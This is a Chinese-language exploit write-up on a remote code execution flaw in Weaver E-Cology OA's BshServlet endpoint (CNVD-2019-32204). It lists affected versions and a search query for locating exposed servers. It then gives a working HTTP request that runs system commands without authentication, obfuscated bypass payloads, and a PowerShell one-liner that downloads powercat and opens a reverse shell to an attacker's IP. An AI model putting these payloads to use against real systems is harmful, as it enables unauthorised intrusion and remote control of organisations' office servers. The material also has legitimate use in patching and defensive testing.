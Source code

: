 # 泛微OA E-Cology BshServlet 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## 网络测绘

<a-checkbox checked>app=“泛微-协同办公OA”</a-checkbox></br>

## 影响版本

<a-checkbox checked>E-cology 7.0</a-checkbox></br>
<a-checkbox checked>E-cology 8.0</a-checkbox></br>
<a-checkbox checked>E-cology 8.1</a-checkbox></br>
<a-checkbox checked>E-cology 9.0</a-checkbox></br>

## 漏洞复现

直接在网站根目录后加入组件访问路径 `/weaver/bsh.servlet.BshServlet/`，如下图在victim上执行了命令“whoami”

![img](../../../.vuepress/public/img/fanwei-6.png)



请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```



## 